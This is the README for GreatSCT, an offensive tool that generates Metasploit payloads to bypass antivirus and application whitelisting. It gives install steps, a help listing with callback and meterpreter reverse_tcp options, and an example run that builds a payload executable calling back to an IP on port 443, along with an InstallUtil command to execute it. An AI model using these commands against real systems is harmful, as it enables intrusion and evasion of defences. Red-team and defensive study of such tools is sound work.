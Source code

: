 # GreatSCT

GreatSCT is a tool designed to generate metasploit payloads that bypass common anti-virus solutions and application whitelisting solutions.

GreatSCT is current under support by @ConsciousHacker

## Software Requirements:

### Linux

1.  Debian or Kali - run the setup script - sudo ./setup.sh -c

## Setup (tl;dr)

> NOTE: Installation must be done with superuser privileges. If you are not using Kali Linux, prepend each command with `sudo` or change to the root user before beginning.

Run `./setup.sh -c` on Linux.

Install by cloning from git, not via apt!

### Quick Install

```bash
apt-get -y install git
git clone https://github.com/ConsciousHacker/GreatSCT.git
cd GreatSCT/
cd setup
sudo ./setup.sh -c
```

### Regenerating Config

> NOTE: This must be done with superuser privileges. If you are not using Kali Linux, prepend each command with `sudo` or change to the root user before beginning.

Most of the time the config file at `/etc/greatsct/settings.py` will not need to be rebuilt but in some cases you might be prompted to do so. The file is generated by `config/update.py`.

It is important that you are in the config/ directory before executing update.py. If you are not, settings.py will be incorrect and when you launch GreatSCT you will see the following.

```bash
    Main Menu

            0 payloads loaded
```

Don't panic. Enter the config/ dir and re-run update.py.

### Example Usage

GreatSCT's Main Menu:

```===============================================================================
                             GreatSCT | [Version]: 1.0
===============================================================================
      [Web]: https://github.com/GreatSCT/GreatSCT | [Twitter]: @ConsciousHacker
===============================================================================

Main Menu

	1 tools loaded

Available Commands:

	exit			Exit GreatSCT
	info			Information on a specific tool
	list			List available tools
	update			Update GreatSCT
	use			    Use a specific tool

Main menu choice: 


```

**Help**
```# ./GreatSCT.py -h
usage: GreatSCT.py [--update] [--version] [--list-tools] [-t Bypass] [--ip IP]
                   [--port Port] [--list-payloads]
                   [-c [OPTION1=value OPTION2=value [OPTION1=value OPTION2=value ...]]]
                   [-o OUTPUT NAME] [-p [PAYLOAD]] [--clean]
                   [--msfoptions [OPTION=value [OPTION=value ...]]]
                   [--msfvenom [windows/meterpreter/reverse_tcp]]

GreatSCT is a framework to generate application whitelisting bypasses.

GreatSCT Options:
  --update              Update the GreatSCT framework.
  --version             Displays version and quits.
  --list-tools          List GreatSCT's tools
  -t Bypass, --tool Bypass
                        Specify GreatSCT tool to use (Bypass)

Callback Settings:
  --ip IP, --domain IP  IP Address to connect back to
  --port Port           Port number to connect to.

[*] Payload Settings:
  --list-payloads       Lists all available payloads for that tool

Great Scott Options:
  -c [OPTION1=value OPTION2=value [OPTION1=value OPTION2=value ...]]
                        Custom payload module options.
  -o OUTPUT NAME        Output file base name for source and compiled
                        binaries.
  -p [PAYLOAD]          Payload to generate. Lists payloads if none specified.
  --clean               Clean out payload folders.
  --msfoptions [OPTION=value [OPTION=value ...]]
                        Options for the specified metasploit payload.
  --msfvenom [windows/meterpreter/reverse_tcp]
                        Metasploit shellcode to generate.
```
**GreatSCT Bypass CLI**
```# ./GreatSCT.py --ip 192.168.157.136 --port 443 -t Bypass -p installutil/powershell/script.py -c "OBFUSCATION=ascii SCRIPT=/root/script.ps1"
===============================================================================
                                   Great Scott!
===============================================================================
      [Web]: https://github.com/GreatSCT/GreatSCT | [Twitter]: @ConsciousHacker
===============================================================================

 [*] Language: installutil_powershell
 [*] Payload Module: installutil/powershell/script
 [*] Executable written to: /usr/share/greatsct-output/compiled/payload4.exe
 [*] Source code written to: /usr/share/greatsct-output/source/payload4.cs
 [*] Execute with: C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false payload4.exe
#
# file /usr/share/greatsct-output/compiled/payload4.exe
/usr/share/greatsct-output/compiled/payload4.exe: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows
#
```

### Credits
https://github.com/veil-Framework/

### Licensing
This project is licensed under the GNU General Public License v3 license.
